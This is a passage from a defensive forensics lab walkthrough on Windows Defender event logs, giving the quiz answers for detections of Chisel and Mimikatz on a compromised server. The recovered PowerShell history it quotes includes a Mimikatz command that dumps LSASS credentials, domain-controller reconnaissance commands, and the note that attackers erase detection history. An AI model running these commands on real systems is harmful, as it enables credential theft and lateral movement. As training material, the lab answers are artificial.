Even though Windows Defender is not bulletproof antimalware protection, it can often help you detect malicious presence. If threat actors forget to obfuscate their malware, download the tools directly from GitHub, decide to create AV exclusion preemptively, or simply disable the engine, then there is great news for Blue Team since every Windows Defender detection or configuration change is logged! ([Microsoft Documentation](https://learn.microsoft.com/en-us/defender-endpoint/troubleshoot-microsoft-defender-antivirus)).

Windows Defender event channel is enabled by default, logs event ID **1116** whenever any threat is detected and **1117** when remediated; **5001** whenever protection engines are disabled, **5007** and **5013** upon modification of its settings or exclusion creation. The example below shows a detection of Mimikatz launched from PowerShell:

Event Viewer -> Apps and Services Logs -> Microsoft -> Windows -> Windows Defender -> Operational



Depending on the detection context, threat detection events may contain these fields:

- **Path/File**: Full path to the malicious file
- **Path/Webfile**: URL from which it was downloaded
- **Name**: Threat family or malware classification
- **Process Name**: Process that created or started malware
- **User**: User that downloaded, copied, or executed malware

Note that the mentioned Windows Defender event logs and threat detection history you see in the graphical interface do not depend on each other. To remove detection traces, threat actors have to both delete the event logs and delete "database" entries used by the graphical interface (`C:\ProgramData\Microsoft\Windows Defender\Scans\History\Service\DetectionHistory\`). Its structure and content are beyond the scope of this room, but there is a good [SANS Blogpost](https://www.sans.org/blog/uncovering-windows-defender-real-time-protection-history-with-dhparser/) explaining this in detail.

Looks like the attacker went too reckless with reliable persistence. Were they caught by antivirus?

----------------------------------------------------------------

#### What is the threat family ("Name") of the first quarantined file?

Filter for EID 1116-1117 in the Microsoft-Windows-Windows Defender/Operational Log and check the first event:

```text
Microsoft Defender Antivirus has detected malware or other potentially unwanted software.
 For more information please see the following:
https://go.microsoft.com/fwlink/?linkid=37020&name=VirTool:Win64/Chisel.G&threatid=2147929112&enterprise=0
     Name: VirTool:Win64/Chisel.G
     ID: 2147929112
     Severity: Severe
     Category: Tool
     Path: file:_C:\Apache24\bin\httpd-proxy.exe
     Detection Origin: Local machine
     Detection Type: Concrete
     Detection Source: Real-Time Protection
     User: 
     Process Name: Unknown
     Security intelligence Version: AV: 1.421.1504.0, AS: 1.421.1504.0, NIS: 1.421.1504.0
     Engine Version: AM: 1.1.24090.11, NIS: 1.1.24090.11
```

Answer: VirTool:Win64/Chisel.G

#### And what is the threat family of the next detected malware?

The next oldest event is:

```text
Microsoft Defender Antivirus has detected malware or other potentially unwanted software.
 For more information please see the following:
https://go.microsoft.com/fwlink/?linkid=37020&name=HackTool:Win32/Mimikatz!pz&threatid=2147894093&enterprise=0
     Name: HackTool:Win32/Mimikatz!pz
     ID: 2147894093
     Severity: High
     Category: Tool
     Path: file:_C:\mimi\mimi.exe
     Detection Origin: Local machine
     Detection Type: Concrete
     Detection Source: Real-Time Protection
     User: HR01-SRV\Administrator
     Process Name: C:\Windows\explorer.exe
     Security intelligence Version: AV: 1.421.1506.0, AS: 1.421.1506.0, NIS: 1.421.1506.0
     Engine Version: AM: 1.1.24090.11, NIS: 1.1.24090.11
```

Answer: HackTool:Win32/Mimikatz!pz

#### What is the file name of the downloaded Mimikatz executable?

See the event above

Answer: mimi.exe

#### Finally, which Mimikatz command was used to extract hashes from LSASS memory?

Hint: Time to get back to PowerShell logs!

From the file `C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

```bat
cd ../../
cd .\Apache24\bin\mimi\
ls
./mimi.exe
./mimi.exe privilege::debug lsadump::lsa /inject exit
net share
nltest /dclist
nltest /dclist:THM
cd ../
Remove-Item -Recurse -Force .\mimi
dir
<---snip--->
```

Answer: lsadump::lsa /inject

### Task 8 - Conclusion

And what was next? What did the adversary find in the Mimikatz dump? Was there any further lateral movement? Likely yes! But for now, let's return to the customer and see what they can say about the findings on HR01-SRV. Other servers have already recovered, and there will be much more work to do soon, perhaps without any logs at all!

In summary, in this room we covered:

- Basics of web access logs and their use in detecting web shell upload and usage
- Three types of PowerShell logs, their differences, and use in tracking malicious actions
- RDP session logs as a simpler, more compact alternative to the Security 4624 event ID
- Task scheduler logs, their use to build execution timeline of scheduled tasks
- Windows Defender logs, their use in malware detection and classification

Hope you enjoyed this room!

For additional information, please see the references below.

## References

- [Event Viewer - Wikipedia](https://en.wikipedia.org/wiki/Event_Viewer)
- [Mimikatz - GitHub](https://github.com/gentilkiwi/mimikatz)
- [Mimikatz - Wiki](https://github.com/gentilkiwi/mimikatz/wiki)
